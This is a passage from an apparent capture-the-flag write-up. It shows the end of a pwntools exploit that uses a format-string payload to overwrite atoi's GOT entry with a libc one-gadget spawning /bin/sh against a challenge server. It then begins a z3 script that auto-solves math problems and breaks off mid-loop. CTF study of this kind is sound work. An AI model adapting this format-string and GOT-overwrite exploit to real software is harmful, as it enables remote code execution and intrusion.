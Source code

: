     # constraints:
    #   [rsp+0x50] == NULL
    #
    # 0xf1147 execve("/bin/sh", rsp+0x70, environ)
    # constraints:
    #   [rsp+0x70] == NULL
    #

    one_shot = libc_base + 0xf1147

    p = fmtstr64_payload(74,{atoi_got:one_shot})
    edit(1, p)
    # r.sendline("/bin/sh")

    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("jh2i.com", 50002)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

unfortunately i can't get the flag for writeup , the service already down now

# CALC-UL8R | scripting

they give 100 math problems

solution :

i use z3 to find all the solution automatically

{% highlight python %}
from pwn import *
from z3 import *

def exp():

    r = remote("jh2i.com",50003)
    r.recvuntil("\n\n")
    for iter in range(100):
        o = Int("o")

        if iter == 0:
            pass
        else:
            r.recvuntil("\n")

        blacklist = 'abcdefghijklmnopqrstuvwxyz'
        arith = str(r.recv()).replace("=",'==')
        for i in blacklist:
            for j in range(len(arith)):